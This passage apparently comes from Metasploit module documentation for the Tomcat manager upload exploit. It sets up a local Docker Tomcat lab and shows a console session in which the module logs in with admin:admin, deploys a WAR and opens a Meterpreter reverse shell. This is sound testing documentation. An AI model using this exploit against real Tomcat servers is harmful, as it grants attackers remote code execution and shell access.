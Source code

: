 ```sh

echo "User configuration:"
cat ./conf/tomcat-users.xml

echo "Manager configuration:"
cat ./webapps/manager/META-INF/context.xml

# Run tomcat as normal
catalina.sh run
```

Run the Docker process with the configured users and enabling management app:

```sh
docker run \
   --interactive --tty \
   --rm \
   --publish 8888:8080 \
   --volume $(pwd)/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
   --volume $(pwd)/setup.sh:/usr/local/tomcat/setup.sh \
   tomcat:8.5.78-jre8-temurin /bin/bash setup.sh
```

It should be now be possible to run this module:

```
msf exploit(multi/http/tomcat_mgr_upload) > use exploit/multi/http/tomcat_mgr_upload
[*] Using configured payload java/meterpreter/reverse_tcp
msf exploit(multi/http/tomcat_mgr_upload) > run http://admin:admin@127.0.0.1:8888 lhost=192.168.123.1

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying YzO13d...
[*] Executing YzO13d...
[*] Undeploying YzO13d ...
[*] Sending stage (61456 bytes) to 192.168.123.1
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 4 opened (192.168.123.1:4444 -> 192.168.123.1:58604 ) at 2022-05-10 16:55:34 +0100

meterpreter >
```

## Windows (xp sp2)
### Tomcat 6 (6.0.48)
#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat6](http://apache.osuosl.org/tomcat/tomcat-6/v6.0.48/bin/apache-tomcat-6.0.48.exe)
